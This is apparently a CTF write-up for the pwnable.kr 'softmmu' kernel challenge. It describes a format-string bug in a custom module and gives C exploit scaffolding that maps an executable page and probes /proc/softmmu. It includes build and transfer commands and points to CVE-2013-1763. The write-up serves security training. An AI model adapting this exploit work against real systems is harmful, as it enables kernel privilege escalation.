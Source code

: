 ```yaml
---
layout: page
title: pwnable.kr - softmmu
file_path: softmmu
category: pwnablekr
subcategory: hackers_secret
tags: [writeup, pwn, pwnablekr]
---
```


### Overwiew

readme:
```
If you are good at kernel exploit, try this one :)
```

We are given a QEMU machine with pretty old kernel and custom module loaded.

```
...
[+] Loading x86 PAE MMU emulator
[+] Write the virtual address to /proc/softmmu
[+] You can obtain it's physical address by reading /proc/softmmu
[+] i.e. echo -ne '\x00\x80\x04\x08' > /proc/softmmu; hexdump -C /proc/softmmu
[+] Let the kernel exploit begin :)

$ uname -a
Linux (none) 3.7.1 #1 SMP Mon Dec 23 06:07:19 PST 2013 i686 GNU/Linux
$ ls /*.ko
/softmmu.ko
```

The module (softmmu.ko) is pretty simple. We may write 4 byte address to a global variable and then
`printk` it. So there is format string vulnerability.

```c
#include "raw_sploit.h"

/*
~Gros
*/

#define MAX 10000

int _start(int argc, char const *argv[])
{
    char map[MAX] = {};
    int fd;

    /* mmap in userland */
    unsigned long mmap_start, mmap_size;
    mmap_start = 0xdead000;
    mmap_size = 0x12000;
    char* payload = (char*)mmap((void*)mmap_start, mmap_size, PROT_READ|PROT_WRITE|PROT_EXEC,
                    MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0);
    if ((long)payload < 0) {
        write(1, "mmap fault\n", 11);
        exit(1);
    }

    char mmaped_hex[16] = {};
    write(1, "payload at 0x", 13);
    dechex((unsigned long)payload, mmaped_hex, 16, 1);
    write(1, mmaped_hex, 8);
    write(1, "\n", 1);

    /* copy argv[1] to the mapped page */
    memcpy(payload, &argv[0], strlen((char*)&argv[0]));

    /* open softmmu and write address of mmaped page */
    fd = open("/proc/softmmu", O_RDWR);
    if(fd == -1) {
        write(1, "open fault\n", 11);
        exit(1);
    }

    if (write(fd, (char*)&payload, 4) < 4) {
        write(1, "written less than 4 bytes\n", 26);
    }
    
    /* output the result */
    read(fd, map, MAX);
    write(1, map, 4);
    close(fd);

    exit(0);
}
```

Note: there is no networking in the remote QEMU, the exploit needs to be copy-pasted:
```sh
# local:
gcc  -fno-builtin -static -nostdlib -m32 -o exp exp.c
tar -czvf exp.tar.gz exp
cat exp.tar.gz | base64 -w0

# remote:
cd /tmp && cat > exp.tar.gz.b64
base64 -d exp.tar.gz.b64 > exp.tar.gz && tar -xf ./exp.tar.gz
./exp
```

Because of that [raw_sploit.h](/assets/other/raw_sploit.h) is used.

Now, I know only one way of exploiting format strings: with `%n` formatter.
Support for this magic conversion specifier was removed in newer kernels, but
as it turns out, it works in our 3.7.1 version. Despite of what is written in [source code](https://elixir.bootlin.com/linux/v3.7.1/source/lib/vsprintf.c#L1354). This comment misleaded me,
so I did not even try to exploit the fmt bug. Instead, I have found CVE-2013-1763.

